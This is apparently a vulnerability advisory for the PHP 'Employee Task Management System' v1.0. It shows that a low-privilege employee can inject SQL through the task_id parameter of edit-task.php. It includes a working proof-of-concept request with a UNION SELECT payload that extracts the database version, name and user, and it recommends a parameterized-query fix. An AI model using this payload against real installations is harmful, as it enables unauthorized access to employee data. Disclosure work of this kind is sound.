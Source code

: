 # Employee Task Management System - SQL Injection with low privilege authentication

### Date: 
> 17 February 2023

### Author Email: 
> navaidnasari@hotmail.co.uk

### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [Employee Task Management System](https://www.sourcecodester.com/php/15383/employee-task-management-system-phppdo-free-source-code.html)

### Version:
> v 1.0

### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.

### Affected Page:
> edit-task.php

> In this page task_id parameter is vulnerable to SQL Injection Attack

### Description:
> The employee task management system supports two roles of users, one is admin, and another is a normal employee. the detail of role is given below

+ Admin user has full access to the system 
+ Employee user has only a few menu access i.s. Task Management (only assigned tasks) and Attendance (clock In and out)

> So, if the admin assigns a task to a normal employee, an employee could perform the SQL Injection by editing that task from his/her profile. Therefore, low-privileged users could able to get the access full system.

### Proof of Concept:
> Following steps are involved:

+ Admin assigned a task to an employee (ABC)
+ ABC employee edit the task and could perform the SQL injection with vulnerable parameter (edit-task.php?task_id=765)

### Request:
```
GET /etms/edit-task.php?task_id=765%27+and+false+union+select+1,version(),3,database(),user(),6,7--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntknjcf821q2u3h85c14qo1r91
Connection: close
```

### Response:
![image](https://user-images.githubusercontent.com/123810418/219764941-37ede104-c4a5-4500-94f2-2fca6e051343.png)

### Recommendation:
> Whoever uses this CMS, should update line no 27 of edit-task.php with the following code to avoid SQL Injection attack:
```
Old Code:
$sql = "SELECT * FROM task_info WHERE task_id='$task_id' ";
```

```
New Code: 
$sql = $obj_admin->db->prepare("SELECT * FROM task_info WHERE task_id=:task_id ");
$sql->bindparam(':task_id', $task_id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```

Thank you for reading
